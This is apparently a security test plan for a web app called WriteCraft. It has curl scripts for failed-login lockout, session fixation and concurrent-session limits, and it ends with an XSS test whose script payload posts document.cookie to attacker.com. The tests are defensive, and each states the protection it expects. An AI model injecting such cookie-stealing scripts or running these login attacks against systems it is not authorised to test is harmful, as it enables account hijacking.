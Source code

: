 #### Test: Failed Login Attempts (IDS)
```bash
# Attempt 6 failed logins (limit: 5 before block)
for i in {1..6}; do
  curl -X POST https://writecraft.com/api/auth/login \
    -H "Content-Type: application/json" \
    -d '{"email": "test@example.com", "password": "wrong"}' \
    -w "\nAttempt $i Status: %{http_code}\n"
done

# Expected: First 5 return 401, 6th blocks IP for 24 hours
```

### 7. Session Security Tests

#### Test: Session Fixation Attack
```bash
# 1. Get session ID before login
SESSION_ID=$(curl -c - https://writecraft.com | grep connect.sid | awk '{print $7}')

# 2. Login with that session
curl -X POST https://writecraft.com/api/login \
  -H "Cookie: connect.sid=$SESSION_ID" \
  -d "..."

# Expected: New session ID generated after login (session.regenerate)
```

#### Test: Concurrent Session Limiting
```bash
# Login from 4 different devices (limit: 3)
curl -X POST https://writecraft.com/api/login -d "..." -c session1.txt
curl -X POST https://writecraft.com/api/login -d "..." -c session2.txt
curl -X POST https://writecraft.com/api/login -d "..." -c session3.txt
curl -X POST https://writecraft.com/api/login -d "..." -c session4.txt

# Try using first session
curl -X GET https://writecraft.com/api/notebooks -b session1.txt

# Expected: First session invalidated, only last 3 sessions work
```

#### Test: Session Hijacking via XSS
```javascript
// Try to steal session cookie via XSS
<script>
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: document.cookie
  });
</script>

// Expected: httpOnly cookie flag prevents access to document.cookie
```
